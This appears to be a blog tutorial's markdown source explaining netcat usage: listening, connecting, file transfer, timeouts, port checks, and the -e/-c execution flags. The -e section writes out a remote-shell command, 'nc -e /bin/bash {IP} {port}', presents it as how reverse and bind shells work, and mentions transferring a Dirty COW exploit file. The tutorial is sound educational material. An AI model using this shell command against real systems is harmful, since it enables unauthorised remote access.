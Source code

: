 ```yaml
---
title: "Netcat"
tags:
- network
- TCP connection
- remote shell
- bind shell
categories:
- tools
toc: true
toc_sticky: true
og_image: /assets/images/netcat/logo.jpg
---
```

![Domain](/assets/images/netcat/logo.jpg)

## Introduction
netcat (often abbreviated to nc) is a computer networking utility for reading from and writing to network connections using TCP or UDP.

It is generally used to test network connectivity on certain ports, or for reverse/bind shells.

## netcat as a server
Netcat can be used to start a server by telling it to listen on a certain port. By default, netcat server only allows a single client connection.

Command to tell nc to listen on a certain port:
```
$ nc -nlvp 65000
listening on [any] 65000 ...
```

`-n`: Use of this option means that hostname and port arguments are restricted to numeric values.

`-l`: Listen for an incoming connection rather than initiate a connection to a remote host.

`-v`: verbose output

`-p`: specify port on which to listen to

Whenever a client attempts connection to the port listened by netcat, following log can be seen:
```
$ nc -nlvp 65000
listening on [any] 65000 ...

connect to [127.0.0.1] from localhost [127.0.0.1] 37518
```

## netcat as a client
```
nc localhost 65000
```
When running the above command, netcat will try and connect to the host (which is `localhost` in this case) and port(which is `65000` in this case) specified. 

At this point, a TCP connection(default unless specified to establish UDP connection with `-u` flag) has been established between the client with some random temporal port and the local server with port 65000. 

**Whatever standard input that we give here, is `echo`ed in the server and vice-versa**.

Client side:
```
nc localhost 65000
Hello world!
```

Server side:
```
$ nc -nlvp 65000
listening on [any] 65000 ...

connect to [127.0.0.1] from localhost [127.0.0.1] 37518
Hello world!
```
## File transfer using netcat
We can use input redirection on server side instead of writing on the standard input and this can be used to transfer file as:
```
$ nc -lvnp 4444 < dirty_cow.c
listening on [any] 4444 ...
```
Whenever a client connects to it, they get the file as:
```
$ nc {host} 4444 > dirty_cow.c
```
We can also use input redirection on client side as:
```
$ cat hello.txt
Hello world!
$ nc localhost 65000 < hello.txt 
```
The contents of the file `hello.txt` gets echoed on the server side.

## netcat `-w` flag
By default, the connection is persisted infinitely unless the nc process is stopped either in the client side or on the server side. However, `-w` flag can be specified with the `{timeout_seconds}` which terminates the connection after that.

So, in case of listening,
```
nc -nlvp 65000 -w 40
```
will wait for connection initiation from clients until 40 seconds and if none are received, netcat stops listening:
```
nc -nlvp 65000 -w 40
no connection : Connection timed out
```
*Note: If the connection is initiated by the client within the timeout, the connection persists.*

## netcat `-e` flag
By default, netcat simply echoes whatever has been given to the standard input. However, we can tell netcat to execute certain files on the other side using `-e` flag.

>  `-e` {filename}:  specify  filename  to exec after connect (use with caution).\
                    See the -c option for enhanced functionality.

```
nc -e /bin/bash {IP} {local_port}
```
By default, the executable file is `echo` . But now, we have specified the file to be `/bin/bash`. So, when the connection establishes, the file is executed in the client. However, the output of the command is `echo`ed on the server side. And whatever command we write in the nc server gets executed in nc client bash shell and it's output is again echoed back to the server side.

![](/assets/images/netcat/netcat_-e_flag.PNG)

The left side shell shows the server side whereas the right side shows the client side. The left shell has been opened as a normal user `kali` on its home directory `/home/kali`. However, when executing the command `whoami` and `pwd` respectively on the left shell, the output is shown as  `root` and `/root` respectively, which is true for the right shell. 

*Note: Only **stdout** is `echo`ed on the server side. If there are any errors(**stderr**), they are printed on the client itself.*
![](/assets/images/netcat/netcat-stderr.PNG)


Similarly, we can also execute files in the server from client:

![](/assets/images/netcat/netcat_-e_flag_2.PNG)

**So, from the server we can execute commands on the client and vice-versa! This is how reverse shell and bind shell using netcat works.**


## netcat `-c` flag

>   `-c` {string}:  specify shell commands to exec after connect (use with  cau‐\
                    tion).   The  string  is passed to /bin/sh -c for execution.\
                    See the -e option if you don't have a working /bin/sh  (Note\
                    that POSIX-conformant system must have one).

![](/assets/images/netcat/netcat_-c_flag.PNG)

Similar to the `-e` flag, wherever(server-side/client-side) `-c` flag is specified, the bash command gets executed there.

## Testing connectivity:
The following command can be used to check if a server is listening on a certain port or not:
```
nc {host} {port} -vz
```
*Note: The server doesn't need to be started strictly using netcat*

`-z`:           zero-I/O mode [used for scanning]

```
# server is listening on port 65000
❯ nc localhost 65000 -vz                                                      
localhost [127.0.0.1] 65000 (?) open

# server is not listening on port 65001
❯ nc localhost 65001 -vz                                                       
localhost [127.0.0.1] 65001 (?) : Connection refused
```

## Reference
To get more information on different tips and tweaks that can be made, please refer to the [man page](https://man7.org/linux/man-pages/man1/ncat.1.html) of netcat.

Happy Hacking!